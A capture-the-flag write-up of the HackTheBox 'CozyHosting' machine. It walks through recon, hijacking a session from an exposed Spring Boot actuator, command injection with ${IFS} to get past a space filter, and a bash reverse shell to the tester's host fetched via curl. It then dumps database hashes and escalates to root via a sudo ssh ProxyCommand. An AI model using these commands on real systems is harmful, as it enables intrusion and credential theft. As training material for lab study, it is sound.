
# Summary
[CozyHosting](https://app.hackthebox.com/machines/CozyHosting) is an Easy rated machine from HackTheBox. It starts with an exposed endpoint in Spring Boot that gets leveraged into session hijacking another user. That user has access to the admin panel. The admin panel has a functionality that is vulnerable to command injection, which is used to get a reverse shell on the box. Once on the box, PostgreSQL are found and used to get 2 user hashes. One of which cracks to a password that was reused by another user on the box.  That user can run a certain command with `sudo` that can be used to escalate privileges to root.
## Nmap
I start off with an `nmap` scan. I first scan all ports in case anything is running on uncommon ports, then scan the open ports with `-sC` to run default enumeration scripts, `-sV` to enumerate versions, and `-v` for verbose mode, to list  ports as they're found.
```
sudo nmap -sC -sV -v -p $(sudo nmap -p- $IP | grep open | awk -F'/' '{print $1}' | tr '\n' ',') $IP
<...SNIP...>

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 72A61F8058A9468D57C3017158769B1F
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

<...SNIP...>
```
I find just 2 ports open, SSH on port 22, and HTTP on port 80. Port 80 initially contains the line `Did not follow redirect to http://cozyhosting.htb`, so i add `cozyhosting.htb` to my `/etc/hosts` file, and then rerun the scan on port 80, as certain enumeration scripts will not run properly otherwise.
### HTTP Port 80
### Spring Boot
Port 80 hosts a site for "CozyHosting".


To identify the underlying tech, I navigate to `/index.html`, `/index.php`, and `/index`. `/index` redirects to he homepage, so I know the site is likely running on python or node or something of the sort. `/index.html` and `/index.php` redirect to a *"Whitelabel Error Page"*, which may seem uninformative at first, but if I search for *"Whitelabel Error Page"*, I get a bunch of results related to Spring Boot, letting me know that the site is running spring boot.

Before I dig further, I want to get some recon going, so i run `feroxbuster` with `-A` to use a random user agent, and `-n` to prevent recursion.
```
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://cozyhosting.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
204      GET        0l        0w        0c http://cozyhosting.htb/logout
200      GET       38l      135w     8621c http://cozyhosting.htb/assets/img/favicon.png
200      GET      295l      641w     6890c http://cozyhosting.htb/assets/js/main.js
200      GET       43l      241w    19406c http://cozyhosting.htb/assets/img/pricing-business.png
200      GET       34l      172w    14934c http://cozyhosting.htb/assets/img/pricing-starter.png
200      GET       29l      174w    14774c http://cozyhosting.htb/assets/img/pricing-ultimate.png
200      GET       38l      135w     8621c http://cozyhosting.htb/assets/img/logo.png
200      GET       83l      453w    36234c http://cozyhosting.htb/assets/img/values-3.png
200      GET       81l      517w    40968c http://cozyhosting.htb/assets/img/hero-img.png
200      GET       73l      470w    37464c http://cozyhosting.htb/assets/img/values-1.png
401      GET        1l        1w       97c http://cozyhosting.htb/admin
200      GET       29l      131w    11970c http://cozyhosting.htb/assets/img/pricing-free.png
200      GET        7l     1222w    80420c http://cozyhosting.htb/assets/vendor/bootstrap/js/bootstrap.bundle.min.js
500      GET        1l        1w       73c http://cozyhosting.htb/error
200      GET       79l      519w    40905c http://cozyhosting.htb/assets/img/values-2.png
200      GET        1l      218w    26053c http://cozyhosting.htb/assets/vendor/aos/aos.css
200      GET        1l      313w    14690c http://cozyhosting.htb/assets/vendor/aos/aos.js
200      GET     2397l     4846w    42231c http://cozyhosting.htb/assets/css/style.css
200      GET        1l      625w    55880c http://cozyhosting.htb/assets/vendor/glightbox/js/glightbox.min.js
200      GET        7l     2189w   194901c http://cozyhosting.htb/assets/vendor/bootstrap/css/bootstrap.min.css
200      GET     2018l    10020w    95609c http://cozyhosting.htb/assets/vendor/bootstrap-icons/bootstrap-icons.css
200      GET       14l     1684w   143706c http://cozyhosting.htb/assets/vendor/swiper/swiper-bundle.min.js
200      GET       97l      196w     4431c http://cozyhosting.htb/login
200      GET      285l      745w    12706c http://cozyhosting.htb/
200      GET      285l      745w    12706c http://cozyhosting.htb/index
400      GET        1l       32w      435c http://cozyhosting.htb/plain]
400      GET        1l       32w      435c http://cozyhosting.htb/[
400      GET        1l       32w      435c http://cozyhosting.htb/]
400      GET        1l       32w      435c http://cozyhosting.htb/quote]
400      GET        1l       32w      435c http://cozyhosting.htb/extension]
400      GET        1l       32w      435c http://cozyhosting.htb/[0-9]
[####################] - 2m     30037/30037   0s      found:31      errors:0      
[####################] - 2m     30000/30000   282/s   http://cozyhosting.htb/
```
I see a result for `/admin`.  I browse to it and find a login form. I try some easy credentials, but no luck.
### Actuators Endpoint & Session Hijack
I remember that [Seclists](https://github.com/danielmiessler/SecLists) has some wordlists for Spring Boot, so I rerun `feroxbuster` with one of these lists. I get a ton of new results this time at the `/actuators` endpoint



Browsing to `/actuator`, I get a `json` response with a bunch of different actuator endpoints



[Spring Boot Actuators](https://www.baeldung.com/spring-boot-actuators) are basically a configurable monitoring tool for developing Spring Boot applications. This should usually be removed before the site is pushed live. There are various exploits that have been found through the years that can be used on exposed actuators. [HackTricks has a great page](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators)  on a bunch of jumping off points for penetration testing Spring Boot actuators. In this case, the exploit is much simpler. Before I start going down a bunch of rabbit holes, I decide to poke around myself. I send the request into Burpsuite repeater to make it easier to navigate around.

There is an actuator called `/sessions`, navigating there, I find what looks like session ID's, or cookies! One for `UNAUTHORIZED`, presumably me, and one for `kanderson`.



I view my cookies and see my `JSESSIONID` is identical to the `UNAUTHORIZED` token, confirming these are almost definitely session ID's. I browse to `/admin` and intercept the request in Burp and change the cookie value to `kanderson's`, and get access to the admin panel! The cookie values do seem to change fairly frequently, so if at first this doesn't work, refresh the `/actuator/sessions` endpoint and grab a new cookie until it does.




### Admin Panel > Reverse Shell
The admin panel only has one real function, to create an SSH connection to available hosts. You enter the name of the host you want to connect to, and your username on that host. Your SSH public key needs to already be added on that machine. 

So what happens is that an  OS command is run to make sure your username is in the `authorized_keys` file on the remote host. This is vulnerable to command injection!

I enter a hostname that is likely valid, in case that needs to pass some sort of check before the username gets checked. I then intercept the request in Burp. I enter a `;` after the usename, and then a command.



I get an error back 
```
ssh: Could not resolve hostname asdf: Temporary failure in name resolution/bin/bash: line 1: id@cozyhosting: command not found
```
My username has been put in the host field, and my command has been put in the username field. If I instead put the `;` before the username, I get this error:
```
ssh: Could not resolve hostname id: Temporary failure in name resolution/bin/bash: line 1: @cozyhosting: command not found
```
Now my command is in the hostname field, and nothing is in the username field. So I think I need to surround my command in `;`. The first one to exit out of the current command, and the second to keep my command from getting mixed in with the rest of the script. I try this with the `id` command, but get no output. This isn't too unexpected, as the command injection is likely blind. I instead I try `sleep 5`.  If the site takes around 5 seconds longer than usual to come back, I know I have command execution.



This time I get the error:
```
Username can't contain whitespaces!
```
So it looks like spaces are blacklisted. No matter, I can use `${IFS}`, which in Linux stands for Internal Field Separator, and is an environment variable, usually a tab, which will work fine here. 



And this time we've done it! The page hangs for about 5 seconds, confirming we have command execution! I write a bash reverse shell,  host it on my box, and start a netcat listener. I then `curl` the reverse shell from the command execution and pipe it to bash.
```bash
# Write rev shell and host it
echo 'bash -i >& /dev/tcp/<MY IP>/9001 0>&1' > shell.sh
python3 -m http.server 80

# In a new terminal start a netcat listener
nc -lvnp 9001
```



And sure enough, I catch a revshell on my netcat listener! I then use the [python pty trick](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell) to upgrade my shell
```bash
app@cozyhosting:/app$ python3 -c 'import pty;pty.spawn("bash")'
python3 -c 'import pty;pty.spawn("bash")'
app@cozyhosting:/app$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                                                               
┌──(kali㉿Kali)──[1:11:20]──[~/htb/Machines/CozyHosting/www]
└─$ stty -a                                  
speed 38400 baud; rows 69; columns 127; line = 0;
<...SNIP...>
                                                                                                                               
┌──(kali㉿Kali)──[1:11:23]──[~/htb/Machines/CozyHosting/www]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 9001

app@cozyhosting:/app$ stty rows 68 columns 127 && export TERM=xterm
```
### Shell as Josh
Once on the box I spawn into the `/app` directory with a file called `cloudhosting-0.0.1.jar`. This is the website source directory. I want to look through it in case there's any credentials are juicy info in there. `.jar` files are similar to `.zip` files, and can be unzipped by just renaming them to a `.zip` extension and running `unzip`.  It would be a lot easier to look through the unzipped files if I exfilled it back to my box. I would however like to avoid doing this as it's technically less stealthy.

Instead I navigate into `/dev/shm` and create a folder called `src`. I copy the `.jar` file into there, rename it to a `.zip` extension, and unzip the file. I start by looking in `BOOT-INF/classes` as that seems my best bet. I see an `application.properties` file and `cat` it, and sure enough, find database credentials



I use these creds to connect to the the PostgreSQL database.
```bash
psql -h localhost -U postgres -W <REDACTED>
```
The syntax for `postgresql` is different from MySQL. 
```bash
# Use \l to list all the datbases
postgres-# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

# Use \c to connect to the cozyhosting database
postgres-# \c cozyhosting
Password: 
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".

# Use \dt to list all the tables
cozyhosting-# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

# Use \d to describe a table
cozyhosting-# \d users
                        Table "public.users"
  Column  |          Type          | Collation | Nullable | Default 
----------+------------------------+-----------+----------+---------
 name     | character varying(50)  |           | not null | 
 password | character varying(100) |           | not null | 
 role     | role                   |           |          | 
Indexes:
    "users_pkey" PRIMARY KEY, btree (name)
Referenced by:
    TABLE "hosts" CONSTRAINT "hosts_username_fkey" FOREIGN KEY (username) REFERENCES users(name)

#  Print columns from users table
cozyhosting=# SELECT name, password FROM users;
   name    |                           password                           
-----------+--------------------------------------------------------------
 kanderson | $2a$10$<REDACTED>
 admin     | $2a$10$<REDACTED>
(2 rows)
```
I find 2 hashes in the database, one for `admin` and one for `kaderson`. 
I use `hashid -m` to identify the hashes as well the `hashcat` mode for them.
```bash
hashid -m '$2a$10$<REDACTED>'
Analyzing '$2a$10$<REDACTED>'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```
`Admin` cracked quickly, `kanderson` did not. The `admin` password gave me access to the user `josh` on the box!
### Shell as Root
I switch over to `josh` and run `sudo -l` to list all commands `josh` can run with `sudo`.
```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```
`Josh` can run `ssh *` with `sudo`. I use the [gtfobins](https://gtfobins.github.io/gtfobins/ssh/#sudo) entry to escalate to root!
From there I can read `root.txt`
```bash
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x
root@cozyhosting:/home/josh# id
uid=0(root) gid=0(root) groups=0(root)
root@cozyhosting:/home/josh# cat /root/root.txt
19157d--------------------------
```
